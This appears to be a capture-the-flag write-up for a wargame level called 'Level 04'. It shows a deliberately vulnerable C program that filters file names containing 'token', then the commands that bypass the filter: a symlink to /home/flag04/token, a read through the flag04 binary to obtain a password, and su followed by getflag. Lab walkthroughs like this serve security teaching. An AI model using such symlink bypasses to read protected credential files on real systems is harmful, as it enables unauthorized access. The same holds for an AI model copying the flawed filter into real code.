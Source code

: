 # Level 04

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

In this level we need to read the file token, using the file flag04.
In the code above there is a controll on the name of the file, to bypass this we
need to create link to the file with a different name.

```bash
ln -s /home/flag04/token /home/level04/test
```

Then we can run:

```bash
/home/flag04/flag04 /home/level04/test
```

This will give us the password for the flag04 user.

```bash
su flag04
getflag
```

